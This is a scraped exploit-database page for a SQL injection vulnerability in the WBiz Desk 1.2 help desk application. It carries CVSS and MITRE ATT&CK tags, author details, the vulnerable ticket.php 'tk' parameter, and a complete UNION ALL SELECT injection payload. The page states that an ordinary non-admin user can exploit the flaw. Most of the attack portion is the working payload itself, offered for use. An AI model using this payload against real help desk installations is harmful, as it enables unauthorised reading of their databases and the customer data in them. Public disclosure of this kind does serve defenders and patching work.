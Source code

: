 ```yaml
---
title: WBiz Desk 1.2 SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38695&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-23
fetch_date: 2025-10-04T11:38:06.875735
---
```


# WBiz Desk 1.2 SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WBiz Desk 1.2 SQL Injection Vulnerability

2023-05-22 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38695
[#] Exploit Title: WBiz Desk 1.2 - SQL Injection
[#] CVSS 3.1: 6.4 (Medium)
[#] CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N
[#] Tactic: Initial Access (TA0001)
[#] Technique: Exploit Public-Facing Application (T1190)
[#] Application Name: WBiz Desk
[#] Application Version: 1.2
[#] Link: https://www.codester.com/items/5641/wbiz-desk-simple-and-effective-help-desk-system

[#] Author: h4ck3r - Faisal Albuloushi
[#] Contact: [email protected]
[#] Blog: https://www.0wl.tech

[#] 3xploit:

[path]//ticket.php?tk=[SQL Injection]

[#] 3xample:

[path]/ticket.php?tk=83' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6a6b71,0x534d6e485a74664750746b7553746a556b414e7064624b7672626b42454c74674f5669436a466a53,0x71626b6b71),NULL,NULL,NULL-- -

[#] Notes:
- The vulnerability requires a non-admin privilege (normal) user to be exploited.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)